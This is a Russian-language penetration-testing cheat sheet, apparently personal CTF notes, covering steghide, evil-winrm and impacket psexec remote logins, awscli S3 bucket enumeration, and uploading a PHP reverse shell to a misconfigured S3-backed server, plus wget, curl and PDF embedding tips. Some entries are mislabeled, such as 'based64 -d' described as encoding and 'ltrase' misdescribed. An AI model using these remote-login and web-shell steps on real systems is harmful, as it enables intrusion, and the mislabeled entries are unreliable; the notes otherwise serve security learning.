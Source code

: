 **`xdg-open`** - позволяет открыть файл ( например картинку ) или URL в предпочтительном для него окружении.
**`steghide`** - ищет закодированный текст в нетекстовых файлах ( например картинках )
> ``` 
> steghide --info image.jpg
> steghide extract -sf image.jpg
> ```

**`ltrase`** - читает бинарные файлы как cat 

## Удалённая авторизация
### evil-winrm
`evil-winrm` - подключиться к удаённому хосту windows. пример:
> ``` 
> evil-winrm -i <ip> -u <username> -p <userpassword>

или
### impacket
`impacket/examples`
>```
python3 psexec.py <login>@{TARGET_IP}
 
## WEB

### [[Responder]]

### AWS
Существует саб-домин - **s3**. Это облачное хранилище для вещей в контейнерах. Корзины **AWS S3** имеют различные сценарии использования, включая резервное копирование и хранение, хостинг мультимедиа, доставку программного обеспечения, статический веб-сайт и тд. Файлы, хранящиеся в корзине Amazon S3, называются объектами S3.
**`awscli`** позволяет взаимодействовать с этой корзиной.
```
aws configure # первоначальная настройка. Можно установить значения temp.
```
Мы можем перечислить все корзины S3, размещенные на сервере, с помощью команды ls:
```
aws --endpoint=http://s3.<url> s3 ls
```
Мы также можем использовать команду ls для перечисления объектов и общих префиксов в указанном бакете.
```
aws --endpoint=http://s3.<url> s3 ls s3://<url>
```
Далее можно создать файл и иньекцией:
```
php_reverse_shell > shell.php
```
и загрузить его на уязвимый сервер:
```
aws --endpoint=http://s3.<url> s3 cp shell.php s3://<url>
```
### WGET
чтобы скачать что-то на windows, необходимо использовать следующий синтаксис:
>```
wget http://<IP/URL>/<file> -outfile <file>

### CURL
>```
curl -sX POST <url> # чтобы сделать POST запрос 

## Encrypt
`based64 -d <text>` - перевести текст в based64 кодировку.

## PDF
Чтобы создать PDF файл и внедрить в него какие-то данные:
``` 
qpdf --empty --add-attachment <some file to implement> --mimetype=text/plain -- <name created file>
```
Извлечь ранее внедрённый в PDF файл:
```
binwalk -Me <file>
```